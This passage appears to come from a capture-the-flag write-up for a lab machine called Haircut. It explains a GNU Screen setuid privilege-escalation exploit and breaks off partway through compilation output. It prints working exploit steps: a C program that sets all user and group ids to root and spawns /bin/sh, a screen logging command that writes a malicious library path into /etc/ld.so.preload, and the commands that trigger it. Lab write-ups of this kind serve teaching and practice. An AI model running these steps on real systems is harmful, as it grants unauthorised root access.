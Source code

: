 Next the script creates `/tmp/rootshell`:

    
    
    cat << EOF > /tmp/rootshell.c
    #include <stdio.h>
    int main(void){
        setuid(0);
        setgid(0);
        seteuid(0);
        setegid(0);
        execvp("/bin/sh", NULL, NULL);
    }
    EOF
    gcc -o /tmp/rootshell /tmp/rootshell.c
    rm -f /tmp/rootshell.c
    

It simply sets all the user and group ids to root and runs `/bin/sh`.

Now to the exploit. It’ll move into `/etc`, and then run the following
`screen` command:

    
    
    screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
    

The options are as follows:

  * `-D -m` \- Start `screen` in “detached” mode, but don’t fork a new process, exiting when the session terminates
  * `-L ld.so.preload` \- turn on automatic output logging for the window
  * `echo -ne "\x0a/tmp/libhax.so"` \- command to run in the session, printing a newline followed by the path to the malicious library

So this will start screen output the path to the library, which will be logged
to the `/etc/ld.so.preload` file, and then exit.

`/etc/ld.so.preload` holds a list of libraries that will attempt to be loaded
each time any program is run. So the next time something runs as root, the
malicious library will run as root. The script kicks that off by calling
screen again:

    
    
    screen -ls # screen itself is setuid, so... 
    

Finally, it will call the now SUID `/tmp/rootshell`.

### Run It

I tried to just upload the script to Haircut and run it, but it had some issue
compiling things locally. I resorted to compiling locally on my host. I’ll
create the two c files on my VM, and then compile them:

    
    
    root@kali# gcc -fPIC -shared -ldl -o libhax.so libhax.c 
    libhax.c: In function ‘dropshell’:
    libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
        7 |     chmod("/tmp/rootshell", 04755);
          |     ^~~~~
    root@kali# gcc -o rootshell rootshell.c 
    rootshell.c: In function ‘main’:
    rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
        3 |     setuid(0);
          |     ^~~~~~
    rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]